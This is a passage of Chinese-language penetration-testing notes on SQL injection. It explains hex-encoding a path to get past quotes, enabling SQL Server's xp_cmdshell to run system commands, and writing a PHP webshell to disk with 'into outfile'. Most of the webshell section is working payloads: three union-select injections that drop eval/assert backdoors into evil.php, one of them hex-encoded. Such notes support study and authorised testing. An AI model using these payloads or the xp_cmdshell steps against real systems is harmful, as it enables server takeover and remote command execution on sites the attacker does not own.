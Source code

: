   **可以把引号所包含的路径内容（不要单引号）编码为hex进行绕过**。

  绕过原理：sql可以识别并执行用hex表示的语句

  ![image-20220726165729917](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726165729917.png)

### 利用SQL注入执行命令

https://www.cnblogs.com/feiquan/p/8673093.html

借助 xp_cmdshell 运行cmd命令。

```
USE master
GO
RECONFIGURE --先执行一次刷新，处理上次的配置
GO
EXEC sp_configure 'show advanced options',1 --启用xp_cmdshell的高级配置
GO
RECONFIGURE --刷新配置
GO
EXEC sp_configure 'xp_cmdshell',1  --打开xp_cmdshell,可以调用SQL系统之外的命令
GO
RECONFIGURE
GO
--使用xp_cmdshell在D盘创建一个myfile 文件夹
EXEC xp_cmdshell 'mkdir d:\myfile',no_output --[no_output]表示是否输出信息
GO
```

SQLserver执行系统命令的几种方式：https://www.cnblogs.com/Azjj/p/14019312.html

- **xp_cmdshell**

- **SP_OACREATE**
- **通过沙盒执行命令**

### ==SQL注入写webshel==

https://blog.csdn.net/huangyongkang666/article/details/123728115

#### 上传webshell文件

上传文件的条件：

1. 网站物理路径；
2. 文件写入的权限；
3. secure_file_priv 不为 NULL；

secure_file_priv=NULL时，无法导入导出文件；而当设置不为空时，导入导出文件不受限制；如果设置为某个文件路径，如secure_file_priv=/mysql/时，则导入导出必须要在该文件目录下完成。

```
?id=1 union select '<?php assert($_POST["cmd"]);?>’ into outfile 'D:/WWW/evil.php'

?id=1 union select 1,"<?php @eval($_POST['g']);?>",3 into outfile 'D:/WWW/evil.php'

?id=1 union select 1,0x223c3f70687020406576616c28245f504f53545b2767275d293b3f3e22,3 into outfile "D:/WWW/evil.php"
```
